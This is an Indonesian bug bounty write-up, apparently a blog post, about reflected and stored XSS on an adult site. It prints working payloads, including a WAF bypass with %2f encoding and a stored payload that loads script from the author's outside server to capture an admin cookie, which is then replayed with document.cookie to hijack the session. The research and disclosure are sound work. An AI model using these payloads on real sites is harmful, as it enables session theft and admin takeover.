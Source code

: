 ```yaml
---
layout: post
title: Mengintip Dashboard Admin Situs Haram
categories: [Bug Bounty Write-Up]
author: Akbar Kustirama
---
```


Kegiatan ini berawal dari salah satu teman yang memberi informasi bahwa dia baru saja mendapatkan _bounty_ dari salah satu situs haram yang ada di luar sana. Singkat cerita, saya mencoba mencari peruntungan serupa dengan mencari situs sejenis di pencarian Google dengan harapan menemukan situs yang cukup "umum" yang secara fitur punya banyak bagian yang bisa saya coba untuk masuki.

Untuk mempermudah dan agar saya tidak perlu menyebut nama situsnya, mari kita sebut situs ini sebagai `situsharam.com`.

<img src="images/screenshot-situs-haram.png" alt="Mengintip Dashboard Admin Situs Haram">

Setelah mencoba beberapa fitur seperti list _actors/actress_, kategori, pencarian, serta fitur yang membutuhkan autentikasi pengguna seperti _edit profile_, _like_, _comment_ dan semacamnya, saya menemukan beberapa celah yang detailnya akan saya jelaskan di bawah ini.

## Reflected XSS pada Halaman Pencarian
Celah pertama adalah _Reflected XSS_ yang saya temukan di halaman pencarian. Payload yang saya gunakan adalah: 

```html
asd"><ScRiPt%20>alert(1);<%2fscript>
```

Saat mencoba, saya menemukan bahwa karakter `/` diblok oleh WAF sehingga saya coba untuk mem-bypass rule tersebut menggunakan karakter `%2f`. Dari temuan ini saya bisa menggunakan _payload_ yang sudah disisipi _script_ untuk mencuri `cookie` pengguna.

Pada kasus di dunia nyata, seorang penyerang akan menyisipkan javascript yang bertujuan untuk mencuri _cookie_ pengguna dan beberapa data lain, lalu mengirimnya pada server penyerang. 

Untuk melakukan ini, penyerang perlu mengirim URL (yang sudah disisipi _payload_) ke pengguna lain atau pemilik/admin dari situs ini. Lalu penyerang akan menggunakan data tersebut untuk masuk di situs target tanpa menggunakan _username_ dan _password_.

<img src="images/screenshot-reflected-xss-pencarian.jpg" alt="Mengintip Dashboard Admin Situs Haram">

## Stored XSS pada Profile
Saya rasa kebanyakan _bug bounty hunter_ (termasuk saya) akan mencoba memasukkan _payload_ ke setiap form yang kami temui. Dengan modal "penting yakin", saya mengisi `"><h1>asdf</h1>"` pada kolom nama di halaman _Edit Profile_.

Setelah menyimpan perubahan tersebut, kode HTML yang saya sisipkan dibaca oleh situs sehingga menandakan adanya potensi untuk _Stored XSS_. 

<img src="images/screenshot-html-injection-profile.jpg">

Saya melanjutkan dengan memasukkan payload:

```html
"><script src=//x.serversaya.com></script><x="
```

- `">` = digunakan untuk keluar dari input form (```<input>```)
- `<script src=//x.serversaya.com></script>` = digunakan untuk memanggil script dari server saya (<a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a>)
- `<x="` = digunakan untuk membuka kembali hasil escape dari input form, sehingga tidak ada " type="text" dst seperti screenshot di atas

Setelah beberapa waktu menunggu, saya mendapat notifikasi bahwa payload di atas ditemukan di domain lain (cp.situslain.com) yang mana adalah dashboard admin dari `situsharam.com`. Berikut detail laporan dari <a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a> saat payload saya ditemukan di dashboard admin (klik gambar untuk memperbesar).

<a href="images/screenshot-xss-dashboard-admin-situs-haram.jpg" target="_blank"><img src="images/screenshot-xss-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram"></a>

Pada tangkapan layar di atas, terlihat ada `cookie` admin yang tertangkap oleh kode javascript yang saya panggil. Saya akan mencoba menggunakan Cookie tersebut untuk masuk ke `https://cp.situslain.com/user/edit/{userid}`.

Ketika mengakses `https://cp.situslain.com/user/edit/{userid}`, saya dialihkan ke halaman login `https://cp.situslain.com/user/login`. 

<img src="images/screenshot-login-page-set-cookie.jpg" alt="Mengintip Dashboard Admin Situs Haram">

Selanjutnya saya mencoba _set cookie_ manual melalui `Console` pada `inspect element` dengan cara memasukkan kode javascript. Cookie ini berasal dari laporan ezXSS di atas:

```javascript
document.cookie = 'PHPSESSID=lot4#######################';
````

Setelah Cookie di-set, saya mencoba mengulang lagi dan akhirnya berhasil membuka halaman `https://cp.situslain.com/user/edit/{userid}`.

<img src="images/screenshot-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram">

**Disclaimer**  
_Level_ dan _Credit_ yang tertera pada screenshot adalah pemberian admin (apresiasi, menurut istilah sekarang) setelah saya melaporkan temuan ini. Proses pelaporan tidak akan saya jelaskan di sini, hehe.

Sekian artikel "Mengintip Dashboard Admin Situs Haram". Semoga ada yang bisa dipelajari dari artikel ini, selain akhirnya kita tahu bentuk halaman dashboard admin situs haram. Sampai jumpa di artikel selanjutnya.

